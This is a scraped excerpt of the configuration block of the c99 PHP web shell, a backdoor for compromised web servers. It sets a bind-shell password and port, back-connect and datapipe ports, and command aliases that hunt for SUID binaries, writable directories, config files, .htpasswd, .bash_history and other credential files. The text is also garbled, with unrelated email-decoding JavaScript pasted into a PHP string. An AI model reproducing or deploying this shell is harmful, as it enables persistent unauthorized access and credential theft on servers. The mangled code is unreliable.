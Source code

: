 $log_email = "user@host.gov
/* &lt;![CDATA[ */
(function(){try{var s,a,i,j,r,c,l,b=document.getElementsByTagName("script");l=b[b.length-1].previousSibling;a=l.getAttribute('data-cfemail');if(a){s='';r=parseInt(a.substr(0,2),16);for(j=2;a.length-j;j+=2){c=parseInt(a.substr(j,2),16)^r;s+=String.fromCharCode(c);}s=document.createTextNode(s);l.parentNode.replaceChild(s,l);}}catch(e){}})();
/* ]]&gt; */
";
$sort_default = "0a";
$sort_save = TRUE;

$ftypes  = array(
 "html"=&gt;array("html","htm","shtml"),
 "txt"=&gt;array("txt","conf","bat","sh","js","bak","doc","log","sfc","cfg","htaccess"),
 "exe"=&gt;array("sh","install","bat","cmd"),
 "ini"=&gt;array("ini","inf"),
 "code"=&gt;array("php","phtml","php3","php4","inc","tcl","h","c","cpp","py","cgi","pl"),
 "img"=&gt;array("gif","png","jpeg","jfif","jpg","jpe","bmp","ico","tif","tiff","avi","mpg","mpeg"),
 "sdb"=&gt;array("sdb"),
 "phpsess"=&gt;array("sess"),
 "download"=&gt;array("exe","com","pif","src","lnk","zip","rar","gz","tar")
);


$exeftypes  = array(
 getenv("PHPRC")." -q %f%" =&gt; array("php","php3","php4"),
 "perl %f%" =&gt; array("pl","cgi")
);

$regxp_highlight  = array(
  array(basename($_SERVER["PHP_SELF"]),1,"&lt;font color=\"yellow\"&gt;","&lt;/font&gt;"),
  array("config.php",1) // example
);

$safemode_diskettes = array("a");
$hexdump_lines = 8;
$hexdump_rows = 24;
$nixpwdperpage = 100;
$bindport_pass = "c99mad";
$bindport_port = "31373";
$bc_port = "31373";
$datapipe_localport = "8081";
if (!$win)
{
 $cmdaliases = array(
  array("-----------------------------------------------------------", "ls -la"),
  array("find all suid files", "find / -type f -perm -04000 -ls"),
  array("find suid files in current dir", "find . -type f -perm -04000 -ls"),
  array("find all sgid files", "find / -type f -perm -02000 -ls"),
  array("find sgid files in current dir", "find . -type f -perm -02000 -ls"),
  array("find config.inc.php files", "find / -type f -name config.inc.php"),
  array("find config* files", "find / -type f -name \"config*\""),
  array("find config* files in current dir", "find . -type f -name \"config*\""),
  array("find all writable folders and files", "find / -perm -2 -ls"),
  array("find all writable folders and files in current dir", "find . -perm -2 -ls"),
  array("find all service.pwd files", "find / -type f -name service.pwd"),
  array("find service.pwd files in current dir", "find . -type f -name service.pwd"),
  array("find all .htpasswd files", "find / -type f -name .htpasswd"),
  array("find .htpasswd files in current dir", "find . -type f -name .htpasswd"),
  array("find all .bash_history files", "find / -type f -name .bash_history"),
  array("find .bash_history files in current dir", "find . -type f -name .bash_history"),
  array("find all .fetchmailrc files", "find / -type f -name .fetchmailrc"),
  array("find .fetchmailrc files in current dir", "find . -type f -name .fetchmailrc"),
  array("list file attributes on a Linux second extended file system", "lsattr -va"),
  array("show opened ports", "netstat -an | grep -i listen")
 );
